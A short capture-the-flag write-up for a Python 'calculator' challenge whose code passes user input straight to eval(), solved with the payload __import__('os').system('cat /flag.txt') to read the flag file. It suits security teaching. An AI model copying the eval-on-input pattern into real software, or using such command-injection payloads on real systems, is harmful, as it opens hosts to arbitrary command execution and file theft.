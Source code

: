 ## Description of the challenge

I made this calculator. I have a feeling that it's not safe :(

## Solution
Dockerfile: 
```
FROM python:3.12-slim

WORKDIR /challenge

COPY chall.py /challenge/chall.py
COPY flag.txt /flag.txt

RUN chmod +x /challenge/chall.py


CMD ["python", "/challenge/chall.py"]
```

Code source: 
```#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```  

As we can see, the function eval() is called. We can execute systems command. The idea is to send to the server a valid python code that will print the content of the flag.txt.  

**Input:** ```__import__('os').system('cat /flag.txt')```

![alt text](image.png)